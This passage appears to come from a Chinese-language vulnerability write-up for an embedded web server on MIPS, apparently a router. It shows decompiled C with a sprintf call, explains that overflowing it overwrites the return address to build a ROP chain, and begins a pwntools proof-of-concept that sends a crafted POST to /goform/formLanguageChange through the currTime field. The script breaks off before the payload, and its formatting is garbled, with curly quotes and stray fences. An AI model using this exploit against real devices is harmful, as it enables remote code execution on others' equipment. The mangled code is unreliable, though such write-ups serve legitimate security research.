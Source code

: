```

}

sprintf(acStack480,

```
 "&lt;html&gt;&lt;head&gt;&lt;/head&gt;&lt;body&gt;\r\n\t\tThis document has moved to a new &lt;ahref=\"%s\"&gt;location&lt;/a&gt;.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t&lt;/body&gt;&lt;/html&gt;\r\n"
      ,pcParm2); 
``` `……s

return;

}` 
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):

p=remote(ip,80)

z=len(a)

print “[+]len:”+str(z)

payload=’’

payload+=‘POST /goform/formLanguageChange HTTP/1.1\r\n’

payload+=‘Host: ‘+ip+’\r\n’

payload+=‘Connection: keep-alive\r\n’

payload+=‘Accept-Encoding: gzip, deflate\r\n’

payload+=‘Accept: */*\r\n’

payload+=‘User-Agent: python-requests/2.18.4\r\n’

payload+=‘Content-Length: ‘+str(z+9)+’\r\n’

payload+=‘Content-Type: application/x-www-form-urlencoded\r\n’

payload+=’\r\n’

payload+=‘currTime=’

payload+=a+’\r\n’
```